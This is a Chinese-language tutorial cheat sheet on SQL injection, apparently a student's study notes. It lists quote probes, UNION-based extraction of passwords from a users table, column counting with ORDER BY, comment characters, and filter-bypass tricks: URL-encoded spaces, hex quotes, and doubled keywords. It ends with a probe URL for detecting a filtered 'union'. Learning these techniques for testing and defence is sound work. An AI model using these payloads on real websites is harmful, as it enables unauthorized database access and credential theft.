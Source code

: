 # SQL 注入

### 基本查询

#### 尝试查询

1'        查询是否存在注入

1'#      使用注释符查询是否可以逃逸引号

#### 联合查询

union

```my
select user_id,first_name,user from users where user_id = 1 union select 1,2,3;
```

select 后面的字段数需要和 where 前面的字段数一致

##### 另外

```my
select user_id,first_name,user from users where user_id = 1 union select password,2,3;
```

可以通过联合查询来查询  不允许 查询的内容

### 检测字段数

#### 通过MySQL自带的排序功能

```my
1' order by 4#
```



通过修改排序的字段数来确定一共有几个字段数



## 回显payload

```my
select x,x,x
```

**select后面的查询结果可以回显，在回显的任意字段可以插入查询语句**

例如

```mysql
1' union select version() 2,3;
```

就可以查询版本

**诸如此类，既可以查询数据库，表名，密码等有关信息**



## 注释符

+ # 
+ --_(--+)     在http传输中，+  加号代表空格
+ /**/ 

### 绕过

**php在过滤空格**

php支持的编码

## 空格绕过

+ %20（空格的url编码）
+ %a0 ,  %0a  （回车的url编码，可以代替空格绕过）
+ ()    用括号来空格绕过   select(1),并非select()1
+ /**/       eg:  select/⭐⭐/1

**引号绕过**

+ 用16进制替换引号
+ %27    （单引号的url编码）

### 双写绕过

在注入时，php会将某些语句办掉，比方说把admin或者or办掉

这时

**admin => ''**

ad**admin**min => 'admin'        双写就可以绕过被办掉的语句

**ps:   如果or被办了，那在输入information时，其中的or也得双写。**

属实女少口阿

**此时，可以检测相关语句是否被办**

http://xxxxxxx/xx.php?id=1' a**and**nd 0=(length('union')=5) --+

**length('union')=5    其中，length函数为获取字符串的长度，**

**显而易见，union的长度为5，但是如果sql注入时union被办掉了，union的字符串长度则为零**

**那length('union')则等于0**

**length('union')=5  不成立，  返回值为0**

**则0=(length('union')=5)  则成立**

**即达到检测语句是否被办的效果**

